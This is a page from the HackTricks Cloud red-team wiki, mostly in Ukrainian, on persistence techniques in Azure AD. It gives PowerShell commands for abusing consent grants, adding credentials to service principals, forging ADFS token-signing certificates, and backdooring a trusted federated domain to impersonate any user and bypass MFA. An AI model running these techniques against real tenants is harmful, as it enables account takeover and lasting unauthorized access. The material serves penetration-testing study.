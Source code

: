 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

За замовчуванням будь-який користувач може зареєструвати додаток в Azure AD. Тому ви можете зареєструвати додаток (тільки для цільового орендаря), який потребує дозволів з високим впливом з адміністративним погодженням (схвалити його, якщо ви адміністратор) - наприклад, надсилання електронної пошти від імені користувача, управління ролями тощо. Це дозволить нам **виконувати фішингові атаки**, які будуть дуже **прибутковими** у разі успіху.

Більше того, ви також можете прийняти цей додаток зі своїм користувачем як спосіб підтримувати доступ до нього.

### Applications and Service Principals

З привілеями адміністратора додатків, GA або користувацькою роллю з дозволами microsoft.directory/applications/credentials/update, ми можемо додати облікові дані (секрет або сертифікат) до існуючого додатку.

Можливо **націлити додаток з високими дозволами** або **додати новий додаток** з високими дозволами.

Цікавою роллю, яку можна додати до додатку, була б **роль адміністратора привілейованої аутентифікації**, оскільки вона дозволяє **скидати пароль** глобальних адміністраторів.

Ця техніка також дозволяє **обійти MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Для аутентифікації на основі сертифікатів

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Федерація - Сертифікат підпису токена

З **привілеями DA** на локальному AD можливо створити та імпортувати **нові сертифікати підпису токена** та **сертифікати розшифровки токена**, які мають дуже тривалий термін дії. Це дозволить нам **увійти як будь-який користувач**, чий ImuutableID ми знаємо.

**Виконайте** нижче наведений команду як **DA на сервері(ах) ADFS**, щоб створити нові сертифікати (за замовчуванням пароль 'AADInternals'), додати їх до ADFS, вимкнути автоматичне оновлення та перезапустити службу:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Тоді оновіть інформацію про сертифікат в Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

З привілеями GA в орендаря можливо **додати новий домен** (повинен бути перевірений), налаштувати його тип аутентифікації на Федеративний та налаштувати домен для **довіри до конкретного сертифіката** (any.sts у наведеній нижче команді) та видавця:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Посилання

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
